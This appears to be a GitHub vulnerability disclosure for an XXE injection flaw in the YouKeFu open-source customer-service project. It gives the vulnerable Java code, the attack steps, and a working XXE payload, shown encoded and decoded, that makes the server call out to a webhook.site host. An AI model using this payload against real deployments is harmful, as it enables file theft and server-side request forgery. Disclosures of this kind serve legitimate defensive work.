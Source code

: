 # cve


Vulnerability Disclosure: XXE in YouKeFu Open-Source Project
1. Basic Information
​Project Name: YouKeFu (优客服)
​Project URL: https://github.com/zhangyanbo2007/youkefu
​Vulnerability Type: XML External Entity (XXE) Injection
​Affected Component: Call Center Router Controller
​CWE Classification: CWE-611 (Improper Restriction of XML External Entity Reference)
2. Vulnerability Details
Location
The vulnerability exists in the router update functionality at:
src/main/java/com/ukefu/webim/web/handler/admin/callcenter/CallCenterRouterController.java

Vulnerable Code
java
SAXReader reader = new SAXReader();
Document document = reader.read(new ByteArrayInputStream(
    ("<?xml version=\"1.0\" encoding=\"utf-8\"?>"+router.getRoutercontent()).getBytes()));
    <img width="1357" alt="image" src="https://github.com/user-attachments/assets/8e23a972-8b6f-4de3-b480-478b944b70c9" />


Impact
Attackers can:

Read arbitrary files from the server filesystem
Conduct server-side request forgery (SSRF) attacks
Potentially escalate to remote code execution in certain configurations

Vulnerability reproduction
First, we need to add a hostid through the "/admin/callcenter/pbxhost/add" interface.
Then we remember this hostid and use another interface to carry out an XXE attack.

We successfully injected the payload through the routercontent parameter and received an out-of-band (OOB) request triggered by the XXE vulnerability on our webhook, as clearly demonstrated in the screenshot below.
<img width="1455" alt="image" src="https://github.com/user-attachments/assets/8d8821e5-c25d-4767-85e0-1481e82e5dcd" />
<img width="1435" alt="image" src="https://github.com/user-attachments/assets/e9e10ce9-fc57-4c03-bdbc-8a2f8a9ed1d8" />

paylod
%3c%21%44%4f%43%54%59%50%45%20%66%6f%6f%20%5b%3c%21%45%4e%54%49%54%59%20%78%78%65%20%53%59%53%54%45%4d%20%22%68%74%74%70%73%3a%2f%2f%77%65%62%68%6f%6f%6b%2e%73%69%74%65%2f%32%64%31%63%30%36%64%35%2d%33%61%37%61%2d%34%35%32%36%2d%39%36%61%35%2d%38%38%36%62%34%31%63%64%35%62%33%62%22%3e%5d%3e%3c%66%6f%6f%3e%26%78%78%65%3b%3c%2f%66%6f%6f%3e

urldecode
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "https://webhook.site/2d1c06d5-3a7a-4526-96a5-886b41cd5b3b">]><foo>&xxe;</foo>

